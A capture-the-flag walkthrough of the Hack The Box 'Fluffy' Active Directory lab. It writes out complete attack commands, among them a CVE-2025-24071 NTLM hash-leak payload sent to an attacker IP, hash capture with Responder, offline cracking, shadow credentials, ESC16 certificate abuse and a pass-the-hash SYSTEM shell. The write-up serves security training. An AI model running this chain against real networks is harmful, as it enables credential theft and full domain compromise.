

# Fluffy

[Fluffy](https://app.hackthebox.com/competitive/8/overview) is an <mark style="color:green;">easy</mark> Windows Active Directory box that showcases real-world attack techniques including initial credential access, service abuse, and certificate-based privilege escalation. We begin with valid user credentials, which allow us to **enumerate SMB shares** and find a writable share vulnerable to **CVE-2025-24071**. Exploiting this leads to credentials for another user. Further **domain enumeration** reveals that this user has indirect control over the `ca_svc` service account. By **abusing AD group privileges** and performing a **shadow credentials** attack, we impersonate `ca_svc`. Finally, we exploit an **ESC16 misconfiguration** in ADCS to impersonate the `Administrator`, achieving full domain compromise.

<table><thead><tr><th width="58.33331298828125">Step</th><th>Action</th><th>Tool(s)</th><th>Gained</th></tr></thead><tbody><tr><td>1</td><td>SMB recon</td><td><a href="../../tl-dr/active-directory/tools/netexec.md"><code>nxc</code></a></td><td>CVE-2025-24071</td></tr><tr><td>2</td><td>NTML Hash Leak</td><td><a href="https://github.com/FOLKS-iwd/CVE-2025-24071-msfvenom">PoC</a></td><td>Creds for <code>p.agila</code></td></tr><tr><td>3</td><td>Domain Recon</td><td><a href="../../tl-dr/active-directory/tools/netexec.md"><code>nxc</code></a>, <a href="../../tl-dr/active-directory/tools/hounds.md#bloodhound"><code>BloodHound</code></a></td><td>PE vector identification</td></tr><tr><td>4</td><td>Group Abuse</td><td><code>rpcclient</code></td><td>Rights over <code>ca_svc</code></td></tr><tr><td>5</td><td>Shadow Credentials</td><td><code>certipy</code></td><td>Creds for <code>ca_svc</code></td></tr><tr><td>6</td><td>ESC16</td><td><code>certipy</code></td><td>Creds for <code>Administrator</code></td></tr></tbody></table>

## Foothold

### Domain Recon

To understand the attack surface, we run a TCP port scan. The scan reveals several key services typical of an Active Directory Domain Controller, including Kerberos, LDAP, and SMB:

```bash
# TCP port scan
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP
636/tcp   open  ssl/ldap      Microsoft Windows Active Directory LDAP 
3269/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP 
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)

# OS fingerprinting guess
Microsoft Windows Server 2019 or Windows 10 (97% confidence)
```

This confirms we are dealing with a Windows AD environment, setting the stage for user enumeration and credential-based attacks. Using the `nxc` tool, we first enumerate all domain users. This gives us a list of potential targets for later password spraying and privilege escalation attempts:


```bash
# Extract domain users for future use
$ nxc smb fluffy -u j.fleischman -p J0elTHEM4n1990! --users | \
  awk '$1 == "SMB" && $5 != "[+]" && $5 != "-Username-" && $5 != "[*]" && $5 != "Guest" && $5 != "krbtgt" {print $5}' > domain_users
```


Next, we list SMB shares accessible to `j.fleischman`. Aside from the default shares (`ADMIN$`, `C$`, `IPC$`), there is a non-default share named `IT` which has `READ`/`WRITE` permissions. This is interesting because writable shares can contain sensitive files or serve as a pivot for attacks:

```bash
# List SMB shares
$ nxc smb fluffy -u j.fleischman -p J0elTHEM4n1990! --shares
...
SMB  10.10.11.69  445 DC01   IT        READ,WRITE
```

We recursively download all files from the `IT` share, ignoring standard admin shares, to inspect for any useful information or credentials:

```bash
# Download contents of IT share
$ nxc smb fluffy -u j.fleischman -p J0elTHEM4n1990! -M spider_plus \
  -o DOWNLOAD_FLAG=True MAX_FILE_SIZE=420000 OUTPUT_FOLDER=./ \
  EXCLUDE_FILTER=admin$,print$,ipc$,netlogon,sysvol
```

Within the downloaded files, we find a folder containing KeePass files (`KeePass-2.58`) and an interesting PDF document named `Upgrade_Notice.pdf`. We convert it to text and read it:

```bash
$ pdftotext Upgrade_Notice.pdf
```

This document reveals known vulnerabilities relevant to the environment, potentially giving clues on attack vectors:

<figure><figcaption></figcaption></figure>

We note down that there is [PoC](https://github.com/FOLKS-iwd/CVE-2025-24071-msfvenom) for CVE-2025-24071, but don't dive into it yet. We first want to finish our usual AD enumeration steps, such as testing for [AS-REPRoasting](../../tl-dr/active-directory/attacks/as-reproasting.md) and [Kerberoasting](../../tl-dr/active-directory/attacks/kerberoasting.md). Initially, our Kerberoasting attempt fails with a clock skew error:


```bash
$ impacket-GetUserSPNs -request -dc-ip dc01.fluffy.htb fluffy.htb/j.fleischman
[-] Kerberos SessionError: KRB_AP_ERR_SKEW(Clock skew too great)
```


This occurs because the attacker’s system clock is not synchronized with the DC’s clock, which is critical for Kerberos authentication. To fix this, we sync our system clock:

```bash
$ sudo ntpdate dc01
```

Now retrying Kerberoasting, we successfully retrieve hashes of several service accounts:


```bash
$ impacket-GetUserSPNs -request -dc-ip dc01.fluffy.htb fluffy.htb/j.fleischman
...
ADCS/ca.fluffy.htb      ca_svc     
LDAP/ldap.fluffy.htb    ldap_svc   
WINRM/winrm.fluffy.htb  winrm_svc  
```


Unfortunately, none of these hashes can be cracked:


```bash
$ hashcat -m13100 svc_hashes /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force
```


### CVE-2025-24071

Since we have no other way in, we go back to the CVE-2025-24071 [PoC](https://github.com/FOLKS-iwd/CVE-2025-24071-msfvenom). First, we start Responder to capture hashes:

```bash
$ sudo responder -I tun0
...
[+] Current Session Variables:
    Responder Machine Name     [WIN-I4J8LPW1O3B] # The name of the share
    Responder Domain Name      [NO0W.LOCAL]
    Responder DCE-RPC Port     [46796]
```

Then, we generate a malicious `.zip` file with `msfconsole` that exploits the vulnerable Windows component to leak NTLM hashes:


```bash
$ sudo msfconsole -q -x "use auxiliary/server/ntlm_hash_leak; set ATTACKER_IP 10.10.15.15; set FILENAME exploit.zip; set LIBRARY_NAME malicious.library-ms; set SHARE_NAME WIN-I4J8LPW1O3B; run; exit;"
```


We upload the malicious ZIP to the writable share:


```bash
$ nxc smb dc01 -u 'j.fleischman' -p 'J0elTHEM4n1990!' --share IT --put-file exploit.zip exploit.zip
```


Once the victim interacts with this file, their NTLMv2 hash is captured by Responder:


```bash
$ sudo responder -I tun0
...
05/28/2025 09:31:44 PM - [SMB] NTLMv2-SSP Client   : 10.10.11.69
05/28/2025 09:31:44 PM - [SMB] NTLMv2-SSP Username : FLUFFY\p.agila
05/28/2025 09:31:44 PM - [SMB] NTLMv2-SSP Hash     : p.agila::FLUFFY:c34...000
```


We then attempt to crack this hash offline:


```bash
$ hashcat -m5600 p.agila_hash /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force
...
P.AGILA::FLUFFY:c34...000:prometheusx-303
```


To map domain relationships and potential privilege escalation paths, we collect comprehensive domain data using BloodHound enumeration:


```bash
# Collect domain data
$ nxc ldap 10.10.11.69 -u p.agila -p prometheusx-303 --bloodhound -c All --dns-server 10.10.11.69
```


## Privilege Escalation

### Shadow Credentials

Analyzing the domain data with BloodHound gives us a potential PE vector:

<figure><figcaption></figcaption></figure>



`p.agila` → `Service Account Managers` member

`Service Account Managers` → `GenericAll` over `Service Accounts`&#x20;


`p.agila` can add itself to `Service Accounts`




`Service Accounts` → `GenericWrite` over `ca_svc`


Member of this group, in this case `p.agila`, can modify `ca_svc`'s attributes, including the `msDS-KeyCredentialLink` attribute ([Shadow Credentials](../../tl-dr/active-directory/attacks/adcs.md#shadow-credentials) attack)




`ca_svc` → [`Cert Publishers`](../../tl-dr/active-directory/groups/cert-publishers.md) member


`Cert Publishers` memberships can often lead to [ESC attacks](../../tl-dr/active-directory/attacks/adcs.md#esc-attacks)




So, let's execute the identified PE vector step-by-step:


```bash
# Step 1: Add p.agila to the Service Accounts group
$ net rpc group addmem "Service Accounts" "p.agila" -U fluffy.htb/p.agila%prometheusx-303 -S dc01

# Step 2: Perform the Shadow Credentials attack
$ certipy shadow auto -u p.agila@fluffy.htb -p prometheusx-303 -dc-ip 10.10.11.69 -account 'ca_svc'
...
[*] Wrote credential cache to 'ca_svc.ccache' # TGT ticket
[*] NT hash for 'ca_svc': ca0f4f9e9eb8a092addf53bb03fc98c8 # NT hash

# Step 3: Check for vulnerable certificate templates
$ certipy find -u ca_svc@fluffy.htb -hashes ca0f4f9e9eb8a092addf53bb03fc98c8 -stdout -vuln
...
    [!] Vulnerabilities
      ESC16                             : Security Extension is disabled.
```


### ESC16

Certipy highlights the [ESC16 vulnerability](../../tl-dr/active-directory/attacks/adcs.md#identity-hijack-esc16) and we can PE to `Domain Administrator` following its [documentation](https://github.com/ly4k/Certipy/wiki/06-%E2%80%90-Privilege-Escalation#esc16-security-extension-disabled-on-ca-globally) (we can skip _step 3_ as we already perform the Shadow Credentials attack):


```bash
# Read initial UPN of the victim account
$ certipy account -u p.agila@fluffy.htb -p prometheusx-303 -dc-ip 10.10.11.69 -user 'ca_svc' read
...
   userPrincipalName                   : ca_svc@fluffy.htb
   
# Modify the UPN of the victim's account to administrator
certipy account -u p.agila@fluffy.htb -p prometheusx-303 -dc-ip 10.10.11.69 -upn 'administrator' -user 'ca_svc' update
...
[*] Updating user 'ca_svc':
    userPrincipalName                   : administrator
[*] Successfully updated 'ca_svc'

# Request a client authentication certificate for administrator
certipy req -k -dc-ip 10.10.11.69 -target 'dc01.fluffy.htb' -ca 'fluffy-DC01-CA' -template 'User'
...
[*] Wrote certificate and private key to 'administrator.pfx'

# Revert the UPN of victim's account to the original value
certipy account -u p.agila@fluffy.htb -p prometheusx-303 -dc-ip 10.10.11.69 -upn 'cva_svc@fluffy.htb' -user 'ca_svc' update
...
[*] Updating user 'ca_svc':
    userPrincipalName                   : cva_svc@fluffy.htb
[*] Successfully updated 'ca_svc'

# Authenticate as administrator using the certificate
certipy auth -dc-ip 10.10.11.69 -pfx administrator.pfx -username 'administrator' -domain 'fluffy.htb'
...
[*] Wrote credential cache to 'administrator.ccache' # TGT
[*] Got hash for 'administrator@fluffy.htb': aad...a6e # NTLM hash
```


We can then use the NT hash to get a `SYSTEM` shell:

```bash
impacket-psexec administrator@fluffy.htb -hashes :aad...a6e -dc-ip 10.10.11.69
```
